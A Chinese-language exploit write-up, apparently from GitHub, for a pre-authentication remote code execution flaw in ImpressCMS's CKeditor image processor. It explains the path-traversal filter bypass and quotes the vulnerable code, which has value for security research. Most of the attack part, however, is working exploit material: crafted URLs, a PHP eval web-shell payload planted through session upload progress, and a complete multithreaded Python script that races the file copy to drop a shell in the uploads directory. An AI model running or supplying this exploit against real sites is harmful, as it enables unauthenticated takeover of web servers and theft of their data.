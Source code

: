 # impressCMS - 未经身份验证的代码执行

项目地址:https://github.com/ImpressCMS/impresscms

> impressCMS中的CKeditor图像处理器过去没有足够的过滤器用于用户提供的图像路径为攻击者提供了可能的路径遍历，导致任意文件复制/覆盖，默认的php配置用于会话上传进度，这可能导致预身份验证RCE。

## 漏洞分析
任意文件复制

htdocs/editors/CKeditor/ceditfinder/imageeditor/processImage.php

```php
> header("Content-Type: text/plain"); $imageName = str_replace(array("../", "./"), "", $_REQUEST['imageName']);
> $origName = str_replace(array("../", "./"), "", $_REQUEST['origName']);
if (empty($origName)) {
    echo "{imageFound:false}"; exit;
}
...
...
...
...
$action = $_REQUEST["action"]; $fileInfo = pathinfo($imageName); $extension = $fileInfo['extension']; switch ($action) {
    case "undo":  // This is actually revert now, as only revert is supported
        if (file_exists($origName)) {
>           unlink($imageName); copy($origName, $imageName); }
        break;
```

执行操作时，调用函数并由攻击者控制参数`undocopy()$_REQUEST['origName']$_REQUEST['imageName']`

**路径遍历**

```php
~$ php -a
Interactive mode enabled

php > var_dump(str_replace(array("../", "./"), "", '.....///'));
string(3) "../"
```

`.....///`通过过滤器后变`../`

举例:

```
http://[%CMS_HOST%]/editors/CKeditor/ceditfinder/imageeditor/processImage.php?imageName=[%SOURCE_FILE%]&origName=[%DEST_FILE%]&action=undo
```

此时利用 `cookie PHPSESSID=letspwnimpressCMS`和POST参数`PHP_SESSION_UPLOAD_PROGRESS`的多部分发布请求池，其中包含我们的payload`<?=eval($_GET[a]);exit;//`


## 创建线程触发文件复制

```
http://[%CMS_HOST%]/editors/CKeditor/ceditfinder/imageeditor/processImage.php?origName=/var/lib/php/sessions/sess_letspwnimpressCMS&imageName=.....///.....///.....///.....///uploads/aa.php&action=save
```

此时同时调用会话文件将文件复制到aa.php的上传目录，并且访问shell

```
http://[%CMS_HOST%]/uploads/aa.php?a=phpinfo();
```

最终的漏洞利用代码

```py
import sys
import string
import requests
from multiprocessing.dummy import Pool as ThreadPool
if len(sys.argv)<3:
    print('python '+sys.argv[0]+' http://localhost 1')
    print('python '+sys.argv[0]+' http://localhost 2')
    exit()
HOST = sys.argv[1]
PATH = '/editors/CKeditor/ceditfinder/imageeditor/processImage.php'
sess_name = 'letspwnimpressCMS'
headers = {
    'Connection': 'close',
    'Cookie': 'PHPSESSID=' + sess_name
}
payload = '<?=eval($_GET[a]);exit;//'
def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'A' + payload + 'A'
    }
    while 1:
        fp = open('/etc/hosts', 'rb')
        r = requests.post(HOST+PATH, files={'f': fp}, data=data, headers=headers)
        fp.close()
def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    while 1:
        url = HOST+PATH+'?origName=.....///.....///.....///.....///uploads/aa.php&imageName=/var/lib/php/sessions/sess_letspwnimpressCMS&action=save'
        r = requests.get(url, headers=headers)
        c = r.content
        url2 = requests.get(HOST+'/uploads/aa.php?a=echo%20%2799999999999999999999999999999%27;copy(%27aa.php%27,%27bb.php%27);')
        if('99999999999999999999999999999' in url2.text):
            print('[+] done!')
            print('[!] Check '+HOST+'/uploads/bb.php?a=phpinfo();')
            exit()

if sys.argv[2] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```

运行:

```
python3 exp.py http://localhost/
```
















